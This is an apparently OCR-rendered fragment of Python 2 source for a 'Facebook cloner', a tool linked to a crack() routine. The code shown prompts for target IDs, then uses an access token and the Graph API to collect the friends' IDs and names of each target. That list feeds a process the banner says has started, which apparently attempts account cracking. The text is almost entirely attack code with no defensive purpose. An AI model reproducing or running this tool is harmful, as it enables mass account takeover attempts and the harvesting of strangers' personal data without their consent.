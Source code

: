         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     SHANKAR-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    